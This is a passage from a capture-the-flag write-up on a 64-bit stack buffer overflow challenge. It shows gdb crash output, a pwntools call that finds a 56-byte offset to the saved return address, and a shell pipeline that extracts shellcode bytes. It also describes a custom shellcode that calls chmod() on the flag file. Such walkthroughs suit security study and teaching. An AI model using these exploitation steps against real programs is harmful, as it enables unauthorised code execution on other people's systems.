     Program received signal SIGSEGV, Segmentation fault.
    
    gdb-peda$ x /s $rsp 
    0x7ffd5955e5b8: "oaaapaaaqaaaraaasa"

Finally **pwntools** provide the relative offset:

    $ python -c 'from pwn import * ; print(cyclic_find("oaaapaaaqaaaraaasa"))'
    [!] cyclic_find() expects 4-byte subsequences by default, you gave  'oaaapaaaqaaaraaasa'
        Unless you specified cyclic(..., n=18), you probably just want the first 4  bytes.
        Truncating the data at 4 bytes.  Specify cyclic_find(..., n=18) to override this.
    56

As expected, 7 64-bit words will be consumed to overwrite the saved RIP: 6 for "var_30" and 1 for the saved RBP.

## Original shellcode

There are [plenty of shellcodes](https://www.exploit-db.com/shellcodes/46907) on the Internet.

For fun, a [new shellcode](defi2.S) has been created for the challenge.

This shellcode call chmod() before exiting to give access to the flag to everyone.

The binary code can be retrieved with these commands:

    $ yasm -f elf64 defi2.S -o defi2.o
    $ objdump -d -M intel defi2.o \
        | grep '[0-9a-f]:' \
        | sed 's#.*:\t\([^\t]*\).*#\1#' \
        | sed 's#^# #' \
        | tr -d "\n" \
        | tr -s " " \
        | sed 's# *$##' \
        | sed 's# #\\x#g'

## Final action

The Python script [run2.py](run2.py) runs the final attack:

![defi2 - chmod](defi2-chmod.png)
